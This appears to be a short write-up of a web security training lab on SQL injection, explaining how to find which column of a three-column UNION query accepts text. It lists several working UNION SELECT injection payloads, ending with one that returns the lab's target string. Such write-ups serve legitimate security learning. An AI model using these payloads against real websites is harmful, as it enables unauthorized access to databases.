





# Lab - SQL injection UNION attack, finding a column containing text
- This lab continue on the [previous lab](../Lab3-Determining_Number_of_columns/writeup.md)
- Now the goal is to determine which column has datatype string. 
- The lab will give you random string, and your goal is to match it. 
- It is '1lFmCn' in my case
  - 
- Since we know that number of columns = 3
- The idea is to use Union statement until we can match which column has strings:
  - ' Union Select 'a', Null, Null--
    - 
  - ' Union Select  Null,'a', Null--
    - 
  - ' Union Select  Null, Null,'a'--
    - 
- and see which of them will not cause error
- So we can now know that second column is the one which we can search for the string at. 
  - ' Union Select  Null,'1lFmCn', Null--
  - 